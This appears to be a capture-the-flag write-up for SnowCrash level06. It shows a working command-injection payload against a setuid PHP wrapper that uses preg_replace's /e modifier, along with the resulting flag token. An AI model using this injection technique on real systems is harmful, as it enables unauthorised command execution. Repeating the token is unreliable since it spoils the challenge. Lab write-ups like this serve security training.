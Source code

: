 In our home directory, we have an executable with extended permissions and a PHP script that reveals what the executable does.

```
level06@SnowCrash:~$ ls -la level06*
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
    }
function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a;
}
$r = x($argv[1], $argv[2]); print $r;
?>
```

We can see in the 3rd call to `preg_replace`  the deprecated flag `/e`.

Let's start by creating our file:
``echo '[x {${`getflag`}}]' > /tmp/chopperledrapeau``

Now we just need to run `./level06` with `/tmp/chopperledrapeau` as an argument:
```
level06@SnowCrash:~$ ./level06 /tmp/chopperledrapeau
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
